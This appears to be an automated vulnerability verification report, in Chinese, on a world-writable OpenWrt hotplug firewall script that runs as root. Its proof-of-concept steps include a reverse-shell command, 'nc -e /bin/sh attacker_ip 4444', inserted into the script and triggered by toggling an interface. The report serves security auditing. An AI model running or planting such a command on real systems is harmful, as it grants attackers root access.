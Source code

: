 - **验证时长：** 162.30 秒
- **Token 使用量：** 191878

---

## 原始信息

- **文件/目录路径：** `etc/hotplug.d/iface/20-firewall`
- **位置：** `etc/hotplug.d/iface/20-firewall`
- **描述：** 文件 '20-firewall' 具有全局可写权限 (rwxrwxrwx)，允许任何用户（包括非root用户）修改脚本内容。当热插拔事件（如接口 up/down）发生时，该脚本以 root 权限执行。攻击者可以修改脚本添加恶意代码（如反向 shell 或命令执行），从而获得 root 权限。触发条件包括系统热插拔事件，如网络接口配置变化，攻击者可能通过修改脚本并等待或诱导事件发生（例如，通过网络配置工具或物理接口操作）来利用此漏洞。脚本本身没有代码注入漏洞，但权限配置错误导致完整攻击链。
- **代码片段：**
  ```
  #!/bin/sh
  # This script is executed as part of the hotplug event with
  # HOTPLUG_TYPE=iface, triggered by various scripts when an interface
  # is configured (ACTION=ifup) or deconfigured (ACTION=ifdown).  The
  # interface is available as INTERFACE, the real device as DEVICE.
  
  [ "$DEVICE" == "lo" ] && exit 0
  
  . /lib/functions.sh
  . /lib/firewall/core.sh
  
  fw_init
  fw_is_loaded || exit 0
  
  case "$ACTION" in
  	ifup)
  		fw_configure_interface "$INTERFACE" add "$DEVICE" &
  	;;
  	ifdown)
  		fw_configure_interface "$INTERFACE" del "$DEVICE"
  	;;
  esac
  ```
- **备注：** 此漏洞依赖于热插拔事件以 root 权限执行脚本。非root用户可能无法直接触发所有热插拔事件，但可以通过系统事件或间接方式（如网络配置）利用。建议检查其他热插拔脚本的权限和执行上下文以确认整体风险。攻击链完整且可验证，但实际利用可能需要特定触发条件。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 警报描述准确：文件权限为全局可写（-rwxrwxrwx），允许任何用户修改脚本内容；脚本内容匹配代码片段，且注释确认它在热插拔事件（如接口配置变化）中以 root 权限执行。攻击者模型是非特权本地用户，他们可以控制输入（修改脚本），路径可达（通过等待或诱导热插拔事件，如使用网络配置工具或系统事件触发），实际影响是获得 root 权限。完整攻击链已验证：攻击者添加恶意代码（如反向 shell），当热插拔事件发生时，脚本以 root 权限执行恶意代码。概念验证（PoC）步骤：1. 攻击者以非特权用户身份编辑文件，添加命令如 'nc -e /bin/sh attacker_ip 4444' 到脚本开头；2. 触发或等待热插拔事件（例如，通过运行 'ifconfig eth0 down && ifconfig eth0 up' 或类似命令，取决于系统配置）；3. 事件触发后，脚本以 root 权限执行，建立反向 shell，攻击者获得 root 访问。风险级别为 High，因为漏洞允许权限提升到 root。

## 验证指标

